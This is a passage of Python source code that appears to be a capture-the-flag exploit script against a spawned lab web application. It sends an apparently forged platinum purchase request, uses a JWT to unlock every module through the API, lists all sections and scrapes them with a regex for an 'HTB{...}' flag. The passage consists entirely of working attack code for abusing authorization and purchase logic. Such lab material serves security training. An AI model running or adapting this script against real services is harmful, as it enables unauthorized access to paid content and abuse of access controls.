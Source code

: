 ```python
    }

    requests.post(
        url=f"{TargetURL}{processPurchaesEndpoint}",
        data=json.dumps(postParametersBuyPlatinum),
        headers=headers,
    )

def UnlockAllModules(JWT):
    # Unlock All Modules
    getAllModulesEndpoint = "/api/modules/"
    response = (requests.get(f"{TargetURL}{getAllModulesEndpoint}")).json()
    moduleIds = [moduleId["id"] for moduleId in response["modules"]]

    headers.update({"Authorization": f"Bearer {JWT}"})
    unlockModulesEndpoint = "/api/modules/ID/unlock"
    for moduleId in moduleIds:
        response = requests.get(
            f"{TargetURL}{unlockModulesEndpoint.replace('ID', str(moduleId))}",
            headers=headers,
        )
    return moduleIds

def GetAllSectionsOfModules(moduleIds):
    # Get All Section IDs belonging to All Modules and Return them
    getSectionsOfModuleEndpoint = "/api/sections/MODULE_ID"
    allSections = []
    for moduleId in moduleIds:
        response = (
            requests.get(
                f"{TargetURL}{getSectionsOfModuleEndpoint.replace('MODULE_ID', str(moduleId))}"
            )
        ).json()
        sectionIds = [sectionId["id"] for sectionId in response["sections"]]
        for sectionId in sectionIds:
            allSections.append(f"{TargetURL}/api/sections/{moduleId}/{sectionId}")
    return allSections

def FindFlag(sectionAndJWT):
    # Get Content of every section within a module and search for the flag
    section, JWT = sectionAndJWT
    headers.update({"Authorization": f"Bearer {JWT}"})
    try:
        response = (requests.get(url=section, headers=headers)).json()
        sectionContent = response["sectionContent"]["content"]
        match = re.findall(r"HTB{.*?}", sectionContent)
        if match:
            print(f"[+] Found Flag: {match[0]}")
            print(f"[+] API GET Endpoint: {urlsplit(section).path}")
    except:
        pass

def main():
    argsParser = argparse.ArgumentParser()
    argsParser.add_argument("STMIP", help="Spawned Target Machine IP Address")
    argsParser.add_argument("STMPO", help="Spawned Target Machine Port")
    arguments = argsParser.parse_args()
    global STMIP, STMPO, TargetURL
    STMIP = arguments.STMIP
    STMPO = arguments.STMPO
    TargetURL = f"http://{STMIP}:{STMPO}"

    name = "".join(random.choices(string.ascii_letters, k=6))
```